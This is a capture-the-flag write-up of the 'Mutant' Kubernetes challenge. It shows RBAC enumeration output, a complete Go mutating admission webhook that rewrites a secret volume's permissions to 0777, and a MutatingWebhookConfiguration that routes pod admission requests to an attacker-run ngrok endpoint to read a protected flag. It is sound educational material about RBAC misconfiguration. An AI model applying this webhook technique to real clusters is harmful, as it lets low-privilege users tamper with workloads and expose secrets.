

Mutant is an engaging challenge focused on exploiting a Kubernetes cluster. It had 14 solves, and I especially enjoyed taking advantage of the RBAC misconfiguration in the `MutatingWebhookConfiguration`.

## Enumeration

We are given a Kubeconfig with the following permissions:

```bash
$ kubectl auth can-i --list
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
mutatingwebhookconfigurations.*                 []                                     []               [get list watch create update delete patch]
namespaces.*                                    []                                     []               [get list watch]
                                                [/.well-known/openid-configuration/]   []               [get]
                                                [/.well-known/openid-configuration]    []               [get]
                                                [/api/*]                               []               [get]
                                                [/api]                                 []               [get]
                                                [/apis/*]                              []               [get]
                                                [/apis]                                []               [get]
                                                [/healthz]                             []               [get]
                                                [/healthz]                             []               [get]
                                                [/livez]                               []               [get]
                                                [/livez]                               []               [get]
                                                [/openapi/*]                           []               [get]
                                                [/openapi]                             []               [get]
                                                [/openid/v1/jwks/]                     []               [get]
                                                [/openid/v1/jwks]                      []               [get]
                                                [/readyz]                              []               [get]
                                                [/readyz]                              []               [get]
                                                [/version/]                            []               [get]
                                                [/version/]                            []               [get]
                                                [/version]                             []               [get]
                                                [/version]    
```

We can see that we have permissions for the following:
- Enumerate namespaces
- Get every resource (Doesn't work on secrets)
- The most important: Create or edit `MutatingWebhookConfigurations`

### Enumerate namespaces

```bash
$ kubectl get namespaces
NAME              STATUS   AGE
default           Active   3m2s
flag-reader       Active   2m57s
kube-node-lease   Active   3m2s
kube-public       Active   3m2s
kube-system       Active   3m2s
mutant            Active   2m57s
```

Interesting namespaces:
- Mutant
- flag-reader

### Enumerate pods

```bash
$ kubectl get pods -n flag-reader
NAME                           READY   STATUS      RESTARTS      AGE
flag-reader                    0/1     Completed   2 (19s ago)   25s
pod-applier-78fd9f7868-6qbgb   1/1     Running     0             4m16s
```

Interesting pods:
- flag-reader with a mounted flag volume and doing a `cat /flag/flag`
- pod-applier with a custom docker image and a service account mounted

Can we read the logs of flag-reader?

```bash
$ kubectl logs -n flag-reader flag-reader

Executing cat /flag/flag...
cat: can't open '/flag/flag': Permission denied

Shutting down...
```

Yes, we can. But the pod has no permissions to read the flag. Lets check why.

```bash
$ kubectl get pod -n flag-reader flag-reader -o yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    cni.projectcalico.org/containerID: 185c31a07c1b6b11701f10526a6bb6819e4621348eed28fb4fb785a99a7c61b7
    cni.projectcalico.org/podIP: 192.168.176.137/32
    cni.projectcalico.org/podIPs: 192.168.176.137/32
  creationTimestamp: "2024-10-28T05:10:32Z"
  name: flag-reader
  namespace: flag-reader
  resourceVersion: "1793"
  uid: a78d7448-f928-4ebc-a8ef-3b46d1744eca
spec:
  automountServiceAccountToken: false
  containers:
  - args:
    - |-
      echo '
      Executing cat /flag/flag...' && cat /flag/flag || continue && echo '
      Shutting down...'
    command:
    - sh
    - -c
    image: busybox
    imagePullPolicy: Always
    name: container
    resources:
      limits:
        cpu: 50m
        memory: 10Mi
      requests:
        cpu: 50m
        memory: 10Mi
    securityContext:
      allowPrivilegeEscalation: false
      capabilities:
        drop:
        - all
      privileged: false
      readOnlyRootFilesystem: true
      runAsGroup: 10000
      runAsNonRoot: true
      runAsUser: 10000
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /flag
      name: flag
      readOnly: true
volumes:
  - name: flag
    secret:
      defaultMode: 400
      secretName: flag
```

So it looks like the flag is mounted in read-only for the owner (theorically root) and the flag-reader is executed as UID 10000.

### Investigate pod-applier bot

Is it available from dockerhub?

`$ docker pull docker.io/p4ck3t0/hacklu:applier`

Yes it is. Lets investigate the source code:

```python
while True:
    create_pod()
    time.sleep(60)
    delete_pod()
    logger.info("Sleeping for 10 seconds. Then will create pod again")
    time.sleep(10)
```

So this creates the flag-reader pod and destroys it every 60s. With this mechanism we can exploit the `MutatingWebhookConfiguration` to trick the pod creation and change parameters.

### Exploiting

Giving an user RBAC access to create or edit `MutatingWebhookConfigurations` is very dangerous, this is executed just after the resource request has been authorized and can edit this resource to something new specified by the patch of the webhook response.



Indeed, we could say that being able to configure a `MutatingWebhookConfiguration` is as risky as giving someone permissions to edit a `SUID` file owned by root.

To accomplish this, I used the [KubeWebhook Go Module](https://github.com/slok/kubewebhook), which is straightforward to work with, and one of its default templates perfectly fits my needs.

The idea is to create a `MutatingWebhookConfiguration` aiming to our webhook server and give a response that patches the pod with some kind of privileges that allows it to read the flag.

My initial test involved setting the `defaultMode` of the flag mount point to 777 permissions.

So our code would end up like this:

```go
package main

import (
	"context"
	"fmt"
	"net/http"
	"os"

	corev1 "k8s.io/api/core/v1"
	metav1 "k8s.io/apimachinery/pkg/apis/meta/v1"

	"github.com/sirupsen/logrus"
	kwhhttp "github.com/slok/kubewebhook/v2/pkg/http"
	kwhlogrus "github.com/slok/kubewebhook/v2/pkg/log/logrus"
	kwhmodel "github.com/slok/kubewebhook/v2/pkg/model"
	kwhmutating "github.com/slok/kubewebhook/v2/pkg/webhook/mutating"
)

func annotatePodMutator(_ context.Context, _ *kwhmodel.AdmissionReview, obj metav1.Object) (*kwhmutating.MutatorResult, error) {
	pod, ok := obj.(*corev1.Pod)
	if !ok {
		// If not a pod just continue the mutation chain(if there is one) and don't do nothing.
		return &kwhmutating.MutatorResult{}, nil
	}

	// Mutate our object with the required annotations.
	if pod.Annotations == nil {
		pod.Annotations = make(map[string]string)
	}
	var c int32 = 0777
	pod.Spec.Volumes[0].Secret.DefaultMode = &c
	pod.Annotations["mutated"] = "true"
	pod.Annotations["mutator"] = "pod-annotate"

	return &kwhmutating.MutatorResult{
		MutatedObject: pod,
	}, nil
}

func main() {
	logrusLogEntry := logrus.NewEntry(logrus.New())
	logrusLogEntry.Logger.SetLevel(logrus.DebugLevel)
	logger := kwhlogrus.NewLogrus(logrusLogEntry)

	// Create our mutator
	mt := kwhmutating.MutatorFunc(annotatePodMutator)

	mcfg := kwhmutating.WebhookConfig{
		ID:      "podAnnotate",
		Obj:     &corev1.Pod{},
		Mutator: mt,
		Logger:  logger,
	}
	wh, err := kwhmutating.NewWebhook(mcfg)
	if err != nil {
		fmt.Fprintf(os.Stderr, "error creating webhook: %s", err)
		os.Exit(1)
	}

	// Get the handler for our webhook.
	whHandler, err := kwhhttp.HandlerFor(kwhhttp.HandlerConfig{Webhook: wh, Logger: logger})
	if err != nil {
		fmt.Fprintf(os.Stderr, "error creating webhook handler: %s", err)
		os.Exit(1)
	}
	logger.Infof("Listening on :8443")
	err = http.ListenAndServe(":8443", whHandler)
	if err != nil {
		fmt.Fprintf(os.Stderr, "error serving webhook: %s", err)
		os.Exit(1)
	}
}
```

Now we need the kubernetes server to connect to our API, we can use the `url` param under the declaration for pointing it to an ngrok server that redirects to localhost.

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: mutatepod
  # labels: {} # managed by kustomize
webhooks:
- name: mutatepod.xtylez.scaven
  failurePolicy: Ignore
  reinvocationPolicy: IfNeeded
  matchPolicy: Equivalent
  sideEffects: None
  timeoutSeconds: 5
  admissionReviewVersions: ["v1"]
  clientConfig:
    url: "https://151c-88-13-163-201.ngrok-free.app/mutate"
  rules:
  - operations: ["CREATE", "UPDATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
    scope: Namespaced
```

After deploying it, we wait until the webhook gets triggered. We can see in the logs of the webhook server that it has been triggered, we check the logs of the pod and...

```bash
$ kubectl logs -n flag-reader flag-reader
Executing cat /flag/flag...
flag{get_those_ga1nz}

Shutting down...
```

We got the flag.

## Conclusions

Kubernetes system administrators have to be very careful about giving specific resource permissions because it could lead to a cluster privilege scalation very quickly.
It has been a very interesting challenge which could be used in a real world scenario.
